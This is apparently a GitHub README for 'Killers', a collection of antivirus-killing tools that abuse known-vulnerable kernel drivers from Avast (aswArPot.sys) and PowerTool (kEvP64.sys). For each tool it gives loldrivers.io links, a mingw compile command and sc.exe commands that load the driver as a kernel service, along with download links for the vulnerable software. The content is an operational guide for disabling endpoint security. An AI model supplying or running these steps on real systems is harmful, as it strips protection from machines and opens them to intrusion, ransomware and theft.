 # Killers

<p align="center">
  <img src="https://github.com/xalicex/Killers/blob/main/killers.jpg"  width=40% height=40% >
</p>

## Avast

https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

```
x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 
sc.exe create aswArPot.sys binPath= C:\windows\temp\aswArPot.bin type= kernel && sc.exe start aswArPot.sys
```

## PowerTool 

https://www.loldrivers.io/drivers/fe2f68e1-e459-4802-9a9a-23bb3c2fd331

```
x86_64-w64-mingw32-gcc -o PowerTool_killer.exe PowerTool_killer.c 
sc.exe create kEvP64.sys binPath= C:\windows\temp\kEvP64.bin type= kernel && sc.exe start kEvP64.sys
```
PowerTool official website : http://powertool.s601.xrea.com/
Download page : https://www.softpedia.com/get/Antivirus/Removal-Tools/ithurricane-PowerTool.shtml
